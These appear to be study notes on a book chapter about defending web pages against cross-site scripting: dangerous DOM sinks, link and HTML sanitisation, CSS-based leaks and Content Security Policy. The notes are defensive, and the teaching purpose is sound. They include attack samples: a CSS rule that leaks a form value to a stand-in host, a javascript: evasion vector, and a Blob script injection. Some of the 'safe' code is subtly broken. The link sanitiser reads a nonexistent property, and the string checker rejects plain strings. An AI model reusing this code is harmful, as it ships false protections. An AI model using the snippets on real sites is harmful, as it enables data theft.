

# Chapter 28. Defending Against XSS Attacks

## Anti-XSS Coding Best Practices
- **Core Rule**: Never allow unsanitized user-supplied data into the DOM. When user-supplied data must be passed to the DOM, it should be done as a string.
- **Centralized Function**: Applications should use a centralized function for appending to the DOM when needed so that sanitization is routine throughout the entire application.



### Validating Strings in JavaScript
- **How it works**: Validating that user input is strictly a string or a "string-like" object (such as a number).
- **When to use**: To programmatically enforce that injected data does not contain complex objects or executable structures.

```javascript
// Strict string check (fails for numbers)
const isString = function(x) {
  return (typeof x === 'string' || x instanceof String);
};

// String-like check (handles numbers and strings via JSON.parse side effect)
const isStringLike = function(x) {
  try { 
    return JSON.stringify(JSON.parse(x)) === x; 
  } catch (e) { 
    return false; 
  }
};
```

### `innerText` vs `innerHTML`
- **How it works**: `innerText` neutralizes HTML tags by parsing them strictly as string representations, whereas `innerHTML` renders them as live DOM nodes.
- **When to use**: Default to `innerText` for displaying user text. Avoid `innerHTML` unless absolutely necessary and heavily sanitized. Note that `innerText` is not fail-safe; each browser has its own variations on implementation, and bypasses may exist.

---

## Sanitizing User Input
- **How it works**: Attackers frequently evade custom sanitization logic (e.g., filtering out quotes) via vectors like `javascript:alert(String.fromCharCode(...))`. Complete sanitization is extremely difficult.
- **When to use**: Whenever `innerText` cannot be used (e.g., allowing `<b>` but blocking `<script>`).

### Dangerous DOM APIs (XSS Sinks)
Avoid passing user data into the following sinks:
- `element.innerHTML` / `element.outerHTML`
- `document.write` / `document.writeln`
- `document.implementation`
- `Blob`
- `SVG`
- `DOMParser.parseFromString`

### Specific Sink Risks
- **DOMParser Sink**: `parseFromString` converts string inputs directly into active DOM nodes. 
  ```javascript
  const parser = new DOMParser();
  const html = parser.parseFromString('<script>alert("hi");</script>'); // VULNERABLE
  ```
  *Alternative strategy*: Control structure manually using `document.createElement()` and `document.appendChild()`.
- **SVG Sink**: SVGs use the XML specification, natively supporting `<script>` tags and JavaScript execution via `onload`.
  ```html
  <svg version="1.1" xmlns="http://www.w3.org/2000/svg">
    <script type="text/javascript">console.log('test');</script>
  </svg>
  ```
- **Blob Sink**: Blobs can encapsulate arbitrary executable data (e.g., via `URL.createObjectURL(blob)`), instantiating code directly in the DOM.
  ```javascript
  const blob = new Blob([scriptText], { type: 'text/javascript' });
  const url = URL.createObjectURL(blob);
  const script = document.createElement('script');
  script.src = url;
  document.body.appendChild(script);
  ```

---

## Sanitizing Hyperlinks
- **How it works**: User-supplied URLs pose risks due to `javascript:` pseudoschemes triggering code execution upon click/navigation.
- **When to use**: When constructing links or navigation events from user input.

### Browser Built-in Sanitization
Leverage the browser's native `<a>` tag sanitization by mapping user URLs to a dummy anchor tag's `href` attribute, filtering out malicious schemes.

```javascript
const goToLink = function(userLink) {
  const dummy = document.createElement('a');
  dummy.href = userLink; // The browser applies standard sanitization/filtering here
  window.location.href = `https://mywebsite.com/${dummy.a}`;
};
```
Alternatively, use `encodeURIComponent()` to neutralize URL parameters, but avoid using it on the entire URL, as it breaks the scheme/origin structure.

---

## HTML Entity Encoding
- **How it works**: Converts special characters into HTML entities (e.g., `&lt;`) so the browser renders them safely rather than interpreting them as markup or JavaScript.
- **When to use**: When injecting user text inside elements like `<div>`. It does **NOT** protect data injected into `<script>`, CSS, or URLs.

**The "Big Five" Entities:**
- `&`  →  `&amp;`
- `<`  →  `&lt;`
- `>`  →  `&gt;`
- `"`  →  `&#034;`
- `'`  →  `&#039;`

---

## CSS XSS
- **How it works**: CSS can act as an attack vector via properties like `background:url` executing HTTP GET requests. Attackers exploit CSS property selectors (`[value="..."]`) to conditionally trigger requests and exfiltrate page data.
  ```css
  #income[value=">100k"] {
    background:url("https://www.hacker.com/incomes?amount=gte100k");
  }
  ```
- **When to use / Mitigation Strategy**:
  - **Easy**: Completely disallow user-uploaded CSS.
  - **Medium**: Allow granular field modification and construct the stylesheet server-side.
  - **Hard**: Implement rigorous sanitization for all HTTP-initiating attributes (e.g., `background:url`).

---

## Content Security Policy (CSP) for XSS Prevention
- **How it works**: A strict configuration policy informing the browser which APIs are permissible and what remote sources can load scripts.
- **When to use**: Implement as a foundational defense layer early in development via the `Content-Security-Policy` HTTP header or a `<meta>` tag.
  ```html
  <meta http-equiv="Content-Security-Policy" content="script-src https://www.mega-bank.com;">
  ```

### `script-src` & Allowed Sources
- Defines specific domains permitted to load dynamic scripts.
- **Caution**: Wildcards (`https://*.domain.com`) carry inherited risk if a subdomain allows unvetted user file uploads. Use `"self"` to securely restrict loading to the document's origin.

### Unsafe Eval & Unsafe Inline
- CSP disables inline script execution and string-to-code compilation (e.g., `eval()`, `setTimeout(string)`) by default.
- Bypassing this requires the highly unrecommended flags `unsafe-inline` and `unsafe-eval`.
- **Refactoring Strategy**: Convert string-interpreted code paths into strict function references.

```javascript
// Unsafe: Interpreted as a string, prone to injection
setTimeout(`window.alert(${message});`, 1000);

// Safe: Executed as an isolated function block
setTimeout(function() {
  alert(message);
}, 1000);
```
